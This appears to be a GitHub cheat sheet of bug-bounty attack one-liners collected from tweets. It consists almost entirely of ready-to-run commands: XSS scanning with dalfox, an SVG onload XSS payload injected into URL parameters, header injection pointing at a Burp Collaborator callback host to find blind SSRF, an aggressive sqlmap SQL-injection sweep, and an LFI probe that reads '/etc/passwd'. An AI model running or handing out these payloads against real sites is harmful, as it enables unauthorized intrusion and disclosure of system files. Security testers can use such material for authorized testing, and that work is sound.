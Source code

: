 ## Hacking OAuth Apps part - I
- https://twitter.com/harshbothra_/status/1386528653136130048?s=20

## Find XSS using dalfox
cat subs.txt | waybackurl > wayback
cat subs.txt | gau > wayback2
cat subs.txt | hakrawler -depth 3 -plain > wayback3
cat wayback wayback2 wayback3 | sort -u > wayback_full
cat wayback_full | dalfox pipe -o result.txt

## Check Blind ssrf in Header,Path,Host & check xss via web cache poisning.

```sh
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotort'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotort'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotort'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotort HTTP/1.1 ""\n";done\
```
***Source : https://twitter.com/sratarun/status/1386628320406609921?s=20***

## Bash tip of the day
```sh
awk '{print substr($0,2,length()-2);}'
```
Deletes first and last character from the supplied input strings

## Reflected XSS Oneliner
```sh
waybackurls $target | grep '=' |qsreplace '"><svg/onload=alert(1337)>'| while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<svg/onload=alert(1337)>" && echo "$host \033[0;31m" Vulnerable;done
```
***Source : https://twitter.com/reewardius/status/1386369207412170755?s=20***

## Oneliner to find SQLI in your target + subdomains
```sh 
python3 http://paramspider.py -d http://target.com -s TRUE -e woff,ttf,svg,eot | deduplicate --sort | sed '1,4d' | httpx -silent | sqlmap --level=5 --risk=3 
```
***source : https://twitter.com/LogicalHunter/status/1386622309344100358?s=20***

## LFI Oneliner
```sh
gau $target | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
***source : https://twitter.com/reewardius/status/1386347215849934848?s=20***
